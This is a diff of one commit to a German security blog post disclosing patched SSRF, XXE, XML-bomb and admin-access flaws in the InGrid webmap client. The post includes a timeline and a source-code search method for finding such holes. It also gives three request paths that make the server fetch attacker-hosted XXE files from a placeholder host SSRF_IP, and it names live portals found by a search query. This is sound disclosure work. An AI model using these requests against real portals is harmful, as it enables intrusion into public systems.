

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2021-10-27-verschiedene_Schwachstellen_im_InGrid-webmap-client.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2021-10-27-verschiedene_Schwachstellen_im_InGrid-webmap-client.md

````diff
--- a/_posts/hacking_and_pentests/2021-10-27-verschiedene_Schwachstellen_im_InGrid-webmap-client.md
+++ b/_posts/hacking_and_pentests/2021-10-27-verschiedene_Schwachstellen_im_InGrid-webmap-client.md
@@ -1,25 +1,22 @@
 ---
 layout: post
 title:  "Mehrere Schwachstellen (SSRF, XXE, XML Bombe, Admin API Zugriff, etc.) im InGrid Framework (ingrid-webmap-client) geschlossen"
-date:   2021-10-27 23:05:00 MEST
+date:   2021-11-30 22:30:00 MET
 author: 'psytester'
 ---
 
 Verschiedene Bundesländer- und Bundesportale für (Geo-)Metadaten enthielten einige Schwachstellen im InGrid Framework, die nun gefixt wurden:
-- Zwei Möglichkeiten einer XXE
-- XML Bombe
+- Drei Möglichkeiten einer XXE via SSRF
+```
+/ingrid-webmap-client/rest/wms/proxy/?url=https://SSRF_IP/xxe.xml
+/ingrid-webmap-client/rest/wms/proxy/layers?url=http://SSRF_IP/xxe_layers.xml
+/ingrid-webmap-client/rest/search/query?type=services&q=dummy&searchUrl=https://SSRF_IP/xxe_rss_channel_item.xml
+```
+- XML Bombe via SSRF
 - SSRF auf interne Systeme. Zumindest meine Testdatei wird nun nicht mehr ausgegeben, da sie eventuell nicht der erwarteten Struktur entspricht.
 - Schreibender Admin Zugriff auf Daten, die unter anderem eine persistente XSS ermöglichen können
 - Tomcat Version Disclosure Schwachstelle & Veralteter Tomcat Softwarestand
 
-TL;DR:<br>
-Ziellos im Internet unterwegs gewesen, die vielen APIs vom Bundesministerium [bundDEV](https://bund.dev) entdeckt.<br>
-Als Endanwender finde ich das Super Klasse all die APIs zu haben.<br>
-Die Orte der E-Ladestationen entlang der Autobahnen oder das deutschlandweite Ladesäulenregister als Karte der Bundesnetzagentur sind noch nicht allen bekannt.<br>
-Bei mir um die Ecke gibt's also 3 Ladesäulen, die kennt nicht mal Google....<br>
-Die Interpol Fahndungsliste angesehen, rumgespielt, Fehlermeldung bekommen mit der Erkenntnis, das eine MongoDB angebunden ist: `{"name":"MongoError","message":"Regular expression cannot contain an embedded null byte"}`. Alle Datensätze (Stand heute 7684) bekommt man also, wie auch auf der [Interpol Seite direkt angeboten](https://www.interpol.int/How-we-work/Notices/View-Red-Notices) über diese Query-Abfrage: /notices/v1/red?name=.*<br>
-
-Über das Bundesministerium [bundDEV](https://bund.dev) bin ich dann über das [Issue 41](https://github.com/bundesAPI/sofortmassnahmen/issues/41) der Sofortmaßnahmen auf den MetaDaten Portal Verbund [MetaVer.de](https://metaver.de) der Bundesländer Brandenburg, Bremen, Hamburg, Mecklenburg-Vorpommern, Saarland, Sachsen & Sachsen-Anhalt gestoßen.<br>
 Details zum hier angesprochenen und zugrunde liegenden InGrid Framework findet man auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu) und der Source Code liegt auf [Github](https://github.com/informationgrid/ingrid-webmap-client)<br>
 Es gibt mind. 6 Bundes und Bundesländer Portale, die diese Software einsetzen. Mit der [Google-Suche inurl:ingrid-webmap-client](https://www.google.de/search?q=inurl:ingrid-webmap-client&filter=0) findet man diese 6 Portale:<br>
 https://fs.nlphh.de<br>
@@ -40,6 +37,18 @@
   - [Feature] [PORTAL] Aktualisierung TOMCAT Version (REDMINE-2926)
   - [Feature] [PORTAL] Verstecken der Tomcat Version in Tomcat Fehlerseiten. (REDMINE-2925)
   - [Bug] [PORTAL] SSRF mit XML External Entity (XXE) Schwachstelle im MapClient beheben (REDMINE-2924)
+- Final korrigierte Versionen: 5.8.7/ 5.9.1.2 / 5.9.2.1 / 5.10.0.1 / 5.10.1
+- Referenz ChangeLog [5.8.7](https://www.ingrid-oss.eu/5.8.0/about/history.html#version-587) / [5.9.1.2 & 5.9.2.1](https://www.ingrid-oss.eu/5.9.0/about/history.html#version-5921) / [5.10.0.1 & 5.10.1](https://www.ingrid-oss.eu/latest/about/history.html#liste-der-%C3%A4nderungen)
+  - [Bug] [Portal] SSRF mit XML External Entity (XXE) Schwachstelle (2) (REDMINE-3161)
+
+# HowTo vulnerability hunting?
+
+Die Frage lautet wie so oft "Wie findet man eigentlich mögliche Schwachstellen?"<br>
+In diesem Fall half eine Suche im Sourcecode nach Strings wie "@Path(" und den HTTP Methoden als "@GET"/"@POST"/"@PATCH"/"@PUT"/"@DELETE", den "@QueryParam(", einer "URLConnection" und zu guter Letzt für die XXE nach "XPathFactory".<br>
+- Die @Path Treffer in Verbindung mit den HTTP Methoden helfen mir, die möglichen Endpoints zu identifizieren. Hier waren "/admin" Endpoints dabei, die tatsächlich auch schreibenden Zugriff ermöglichten mit "@POST"/"@PATCH"/"@PUT"/"@DELETE".<br>
+- Die @QueryParam geben die möglichen Übergabeparameter bei GET Operationen an. Hier waren die Query Parameter "url=meineurl" und "type=services" jeweils Treffer zum Ausnutzen einer SSRF.<br>
+- Ein "XPathFactory" deutet auf das Verarbeiten von XML Dokumenten hin. Die betroffenen Java Klassen haben dann gezeigt, welche XML Trees vorliegen müssen, damit sie überhaupt verarbeitet werden.<br>
+- Der String "URLConnection" führte zur Klasse HttpProxy mit seinem Aufruf "URLConnection conn = url.openConnection();", wobei diese Komponente die Verbindung als Client aufbaut. Die SSRF Möglichkeit ist gefunden.
 
 # Timeline
 
@@ -48,9 +57,21 @@
 2021-10-05 E-Mail mit neuen Details an hinterlegte E-Mail Adresse auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu)<br>
 2021-10-05 Rückmeldung bekommen über erste kurzfristige Korrekturen schon am Freitag<br>
 2021-10-06 Retest des Fix im develop-Branch / Report neuer Details<br>
-2021-10-07 Alle gemeldeten Probleme wurden in einem Nachtest final als gelöst bestätigt<br>
-2021-10-27 Veröffentlichung der gefixten Schwachstellen
+2021-10-07 Alle bisher gemeldeten Probleme wurden in einem Nachtest final als gelöst bestätigt<br>
+2021-10-27 Erste Veröffentlichung dieses Artikels über die gefixten Schwachstellen<br>
+2021-11-09 Beim Review zur Erweiterung des Artikels eine weitere XXE Schwachstelle gefunden und gemeldet<br>
+2021-11-11 letzte XXE Schwachstelle als offizielle Update Version verfügbar<br>
+2021-11-30 Update dieses Artikels über die gefixten Schwachstellen, inkl. wie ich diese Lücken gefunden habe<br>
 
+# TL;DR
+Ziellos im Internet unterwegs gewesen, die vielen APIs vom Bundesministerium [bundDEV](https://bund.dev) entdeckt.<br>
+Als Endanwender finde ich das Super Klasse all die APIs zu haben.<br>
+Die Orte der E-Ladestationen entlang der Autobahnen oder das deutschlandweite Ladesäulenregister als Karte der Bundesnetzagentur sind noch nicht allen bekannt.<br>
+Bei mir um die Ecke gibt's also 3 Ladesäulen, die kennt nicht mal Google....<br>
+Die Interpol Fahndungsliste angesehen, rumgespielt, Fehlermeldung bekommen mit der Erkenntnis, das eine MongoDB angebunden ist: `{"name":"MongoError","message":"Regular expression cannot contain an embedded null byte"}`. Alle Datensätze (Stand heute 7684) bekommt man also, wie auch auf der [Interpol Seite direkt angeboten](https://www.interpol.int/How-we-work/Notices/View-Red-Notices) über diese Query-Abfrage: /notices/v1/red?name=.*<br>
+
+Über das Bundesministerium [bundDEV](https://bund.dev) bin ich dann über das [Issue 41](https://github.com/bundesAPI/sofortmassnahmen/issues/41) der Sofortmaßnahmen auf den MetaDaten Portal Verbund [MetaVer.de](https://metaver.de) der Bundesländer Brandenburg, Bremen, Hamburg, Mecklenburg-Vorpommern, Saarland, Sachsen & Sachsen-Anhalt gestoßen. Beim Ansehen des Portals nur zufällig und ohne Absicht einen Aufruf gesehen, der interessant aussah ;-)<br>
+Challenge Accepted...
 
 # Disclaimer
 
````
